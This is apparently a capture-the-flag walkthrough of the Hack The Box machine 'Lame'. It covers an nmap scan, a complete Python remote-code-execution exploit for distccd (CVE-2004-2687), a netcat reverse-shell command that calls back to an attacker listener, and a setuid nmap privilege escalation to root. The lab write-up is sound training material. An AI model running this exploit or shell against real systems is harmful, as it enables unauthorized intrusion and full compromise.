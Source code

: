```yaml
---
title: "Lame HTB Walkthrough "
author:
  name: Miguel Guerrero
  link: https://mikemighthack.me
date: 2022-03-15 11:00:00 +0105
categories: [HTB, Walkthrough]
tags: [CVE-2004-2687, lse.sh, setuid]
math: true
mermaid: true
image:
  src: /assets/images/HTB/Lame/20220315130531.png
  width: 800
  height: 500
---
```


Lame was the first box released on HTB. It is a very easy machine that can be solved with metaesploit, but in this post we are going to solve this machine without it. 

## Recon
Firstly, we do our common nmap scan:
```sh
kali@kali:~$ nmap -sC -sV -p21,22,139,445,3632 -Pn -n 10.10.10.3  
Starting Nmap 7.80 ( [https://nmap.org](https://nmap.org) ) at 2020-11-28 20:30 CET  
Nmap scan report for 10.10.10.3  
Host is up (0.033s latency).  
  
PORT STATE SERVICE VERSION  
21/tcp open ftp vsftpd 2.3.4  
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)  
| ftp-syst:  
| STAT:  
| FTP server status:  
| Connected to 10.10.14.12  
| Logged in as ftp  
| TYPE: ASCII  
| No session bandwidth limit  
| Session timeout in seconds is 300  
| Control connection is plain text  
| Data connections will be plain text  
| vsFTPd 2.3.4 - secure, fast, stable  
|_End of status  
22/tcp open ssh OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)  
| ssh-hostkey:  
| 1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)  
|_ 2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)  
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  
445/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  
3632/tcp open distccd distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))  
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel  
  
Host script results:  
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)  
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)  
|_smb-security-mode: ERROR: Script execution failed (use -d to debug)  
|_smb2-time: Protocol negotiation failed (SMB2)
```

We can see that ftp, ssh, smb and DistCC Daemon ports open.

If we focus on port 3632/DistCC Daemon, we can see that it has a vulnerability that we can exploit to gain remote access.

## Exploit
The vulnerability is registered as [CVE-2004-2687](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687). In order to exploit this vulnerability, without metaesploit, we can use this script in python [distccd_rce_CVE-2004-2687.py](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855) 

code:

```python
# -*- coding: utf-8 -*-

'''
	distccd v1 RCE (CVE-2004-2687)
	
	This exploit is ported from a public Metasploit exploit code :
		https://www.exploit-db.com/exploits/9915

	The goal of that script is to avoid using Metasploit and to do it manually. (OSCP style)

	I'm aware a Nmap script exists but for some reason I could not get it to work.

	Lame Box (HTB):
		local>nc -lvp 1403

		local>./disccd_exploit.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.64 1403 -e /bin/sh"	

		Enjoy your shell

	Jean-Pierre LESUEUR
	@DarkCoderSc
'''

import socket
import string
import random
import argparse

'''
	Generate a random alpha num string (Evade some signature base detection?)
'''
def rand_text_alphanumeric(len):
	str = ""
	for i in range(len):
		str += random.choice(string.ascii_letters + string.digits)

	return str

'''
	Read STDERR / STDOUT returned by remote service.
'''
def read_std(s):
	s.recv(4) # Ignore

	len = int(s.recv(8), 16) # Get output length

	if len != 0:
		return s.recv(len)

'''
	Trigger Exploit
'''
def exploit(command, host, port):
	args = ["sh", "-c", command, "#", "-c", "main.c", "-o", "main.o"]

	payload = "DIST00000001" + "ARGC%.8x" % len(args)

	for arg in args:
		payload += "ARGV%.8x%s" % (len(arg), arg)

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	socket.setdefaulttimeout(5)
	s.settimeout(5)

	if s.connect_ex((host, port)) == 0:
		print("[\033[32mOK\033[39m] Connected to remote service")
		try:
			s.send(payload)

			dtag = "DOTI0000000A" + rand_text_alphanumeric(10)

			s.send(dtag)			

			s.recv(24)

			print("\n--- BEGIN BUFFER ---\n")
			buff = read_std(s) # STDERR

			if buff:
				print(buff)

			buff = read_std(s) # STDOUT
			if buff:
				print(buff)

			print("\n--- END BUFFER ---\n")

			print("[\033[32mOK\033[39m] Done.")
		except socket.timeout:
			print("[\033[31mKO\033[39m] Socket Timeout")
		except socket.error:
			print("[\033[31mKO\033[39m] Socket Error")
		except Exception:
			print("[\033[31mKO\033[39m] Exception Raised")
		finally:
			s.close()		
	else:
		print("[\033[31mKO\033[39m] Failed to connect to %s on port %d" % (host, port))


parser = argparse.ArgumentParser(description='DistCC Daemon - Command Execution (Metasploit)')

parser.add_argument('-t', action="store", dest="host", required=True, help="Target IP/HOST")
parser.add_argument('-p', action="store", type=int, dest="port", default=3632, help="DistCCd listening port")
parser.add_argument('-c', action="store", dest="command", default="id", help="Command to run on target system")

try:
	argv = parser.parse_args()

	exploit(argv.command, argv.host, argv.port)
except IOError:
	parse.error

```

To use the exploit:

``` shell
kali$> nc -lvp 1403

#in other shell, execute the python file   
kali$> disccd_exploit.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.64 1403 -e /bin/sh"
```

In this way, we will gain access to the victim machine with the user daemon.


## Privilege escalation
After gain access to the victim machine, we can use the [lse.sh](https://github.com/diego-treitos/linux-smart-enumeration) tool to enumerate flaws   
that allow us to escalate privileges.

```sh
lame$> ./lse.sh
```

in the output of the tool, it is possible to see that nmap has the **setuid** active:
![image-center]({{ site.url }}{{ site.baseurl }}\assets\images\HTB\Lame\20220315133103.png){: .align-center}

We can exploit this very easily to escalate privileges. Execute the following commands:
```sh
lame$> nmap --interactive  
!sh  
sh-3.2# cat /root/root.txt   
````

And finally we are root, and we can use the cat command to achieve the root flag.  

I hope you liked it,
See ya!